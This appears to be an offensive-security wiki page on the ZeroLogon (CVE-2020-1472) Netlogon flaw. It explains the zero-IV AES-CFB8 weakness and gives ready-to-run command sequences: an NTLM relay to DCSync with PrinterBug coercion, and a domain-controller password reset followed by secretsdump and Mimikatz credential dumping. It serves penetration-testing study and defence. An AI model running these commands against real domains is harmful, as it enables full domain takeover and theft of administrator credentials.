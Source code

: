 ```yaml
---
description: CVE-2020-1472
---
```


# ZeroLogon

## Theory

Netlogon is a service verifying logon requests, registering, authenticating, and locating domain controllers. MS-NRPC, the Netlogon Remote Protocol RPC interface is an authentication mechanism part of that service. MS-NRPC is used primarily to maintain the relationship between a machine and its domain, and relationships among domain controllers (DCs) and domains.

The CVE-2020-1472 findings demonstrated that MS-NRPC used a custom and insecure cryptographic protocol (i.e. it reuses a known, static, zero-value Initialization Vector (IV) in an AES-CFB8 mode) when establishing a Netlogon Secure Channel connection to a Domain Controller allowing for an Elevation of Privilege vulnerability.

There were many concepts to understand in the original exploit scenario (the "[password change](zerologon.md#password-change-disruptive)" one).

* **Concept #1**: authentication through MS-NRPC uses AES-CFB8. This means that for 1 in 256 possibilities, every block of the ciphertext will be `\x00` bytes if both the IV and the plaintext are `\x00` bytes.
* **Concept #2**: authentication through MS-NRPC uses a static and null IV (only `\x00` bytes, hence partly validating concept #1).
* **Concept #3**: MS-NRPC signing and sealing don't rely on the same vulnerable mechanisms but are optional and can be ignored.
* **Concept #4**: machine accounts have an unlimited number of login attempts, hence allowing for an authentication bypass and the spoofing of these accounts thanks to concepts #1 and #2 (by using a plaintext filled with `\x00` bytes and by doing enough attempts).
* **Concept #5**: the `NetrServerPasswordSet2`  call can be used to reset an account's password. The new password structure to supply in this call has to be encrypted with the same vulnerable mechanisms stated in concepts #1 and #2.
* **Concept #6**: the password structure can be filled with `\x00` bytes, leading to the setting a new password of a 0 characters length for the target account.
* **Concept #7**: all previous concepts can be chained to reset a domain controller's password and obtain domain-admin privileges.

## Practice

### Authentication relay technique

Another technique, [showcased by Dirk-jan](https://dirkjanm.io/a-different-way-of-abusing-zerologon/) no later than 2 weeks after the public disclosure, highlighted another way of exploiting the vulnerability. That technique relies on a [relayed authentication](broken-reference) to directly operate a [DCSync](../credentials/dumping/dcsync.md), hence having no impact on the continuity of services.

In order to operate the attack, the [Impacket](https://github.com/SecureAuthCorp/impacket)'s script [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) can be used.

```bash
ntlmrelayx -t dcsync://$domain_controller_2 -smb2support
```

Once the relay servers are up and running and waiting for incoming trafic, attackers need to coerce a Domain Controller's authentication (or from another account with enough privileges). One way of doing this is to rely on the [PrinterBug](../mitm-and-coerced-authentications/ms-rprn.md).

```bash
dementor.py -d $domain -u $user -p $password $attacker_ip $domain_controller_1
```

### Password change ( :warning: disruptive)

{% hint style="danger" %}
This technique can break the domain's replication services hence leading to massive disruption, running the following "password change" technique is **not advised**.
{% endhint %}

This exploit scenario changes the NT hash of the domain controller computer account in Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent disruption as much as possible, attackers can try to exploit the CVE, find the NT hash of the Domain Controller account before it was changed, and set it back in Active Directory.

{% tabs %}
{% tab title="UNIX-like" %}
The original attack path can be conducted from UNIX-like systems with the following Python scripts.

* [Secura BV's scanning PoC](https://github.com/SecuraBV/CVE-2020-1472)
* [Dirk-Jan's exploit script](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
* [Dirk-Jan's restore script](https://github.com/dirkjanm/CVE-2020-1472/blob/master/restorepassword.py)

```bash
# Scan for the vulnerability
zerologon-scan 'DC_name' 'DC_IP_address'

# Exploit the vulnerability: set the NT hash to \x00*8
zerologon-exploit 'DC_name' 'DC_IP_address'

# Obtain the Domain Admin's NT hash
secretsdump -no-pass 'Domain'/'DC_computer_account$'@'Domain_controller'

# Obtain the machine account hex encoded password with the domain admin credentials
secretsdump -hashes :'NThash' 'Domain'/'Domain_admin'@'Domain_controller'

# Restore the machine account password
zerologon-restore 'Domain'/'DC_account'@'Domain_controller' -target-ip 'DC_IP_address' -hexpass 'DC_hexpass'
```
{% endtab %}

{% tab title="Windows" %}
The attack can also be conducted from Windows systems with [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) using [`lsadump::zerologon`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/zerologon) to scan and exploit it, then obtain the krbtgt with [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync) and reset the DC account with [`lsadump::postzerologon`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/postzerologon) or use [`lsadump::changentlm`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/changentlm).

```bash
# Scan for the vulnerability
lsadump::zerologon /target:'Domain_controller' /account:'DC_account$'

# Exploit the vulnerability: set the NT hash to \x00*8
lsadump::zerologon /exploit /target:'Domain_controller' /account:'DC_account$'

# Obtain the krbtgt by DCSync
lsadump::dcsync /domain:'Domain' /dc:'Domain_controller' /user:'Administrator' /authuser:'DC_account$' /authdomain:'Domain' /authpassword:'' /authntlm

# Reset the DC account's password in AD and in its SAM base
lsadump::postzerologon /target:'Domain_Controller' /account:'DC_account$'

# (alternative to postezerologon) Find the previous NT hash
//TODO

# (alternative to postezerologon) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'Domain_controller' /user:'DC_account$' /oldntlm:'31d6cfe0d16ae931b73c59d7e0c089c0' /newntlm:'previous_NThash'
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.secura.com/blog/zero-logon" %}

{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %}

